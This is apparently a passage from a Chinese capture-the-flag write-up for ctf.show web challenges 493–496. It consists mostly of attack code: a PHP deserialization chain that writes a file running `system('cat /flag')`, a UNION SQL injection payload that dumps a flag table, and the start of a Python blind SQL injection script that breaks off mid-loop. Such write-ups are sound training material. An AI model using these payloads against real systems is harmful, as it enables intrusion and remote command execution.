 通过读文件发现考点是反序列化，构造

```php
<?php
class db{
    
    public $log;
    public $sql;
    public function __construct(){
        $this->log=new dbLog();
    }

    public function __destruct(){
        $this->log->log($this->sql);
    }
}
class dbLog{
    public $sql;
    public $content;
    public $log;

    public function __construct(){
        $this->log='log/1.php';
        $this->content = "<?php system('cat /flag');?>";
    }

}
$a = new db();
echo urlencode(serialize($a));
```

# web494

有点骚，和上一题一模一样不过在数据库里，没啥难度自己做

# web495

```
username=1' union select "1",group_concat(flagisherebutyouneverknow) from flagyoudontknow%23
```



# web496

```
import requests
import random
url = "http://6a42440e-0d5b-4a37-a3ec-3d237cf94f0f.challenge.ctf.show:8080/api/admin_edit.php"
i = 0
result = ""
while 1:
    i = i + 1
    head = 32
    tail = 127
    while head < tail:
        mid = (head + tail) >> 1
        user = "".join(random.sample('qazwsxedcrfvtgbyhnujmikolpQAZWSXEDCRFVTGBYHNUJMIKOLP1234567890', 6))
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # flagisherebutyouneverknow118 之后去http://6a42440e-0d5b-4a37-a3ec-3d237cf94f0f.challenge.ctf.show:8080/index.php?action=index
```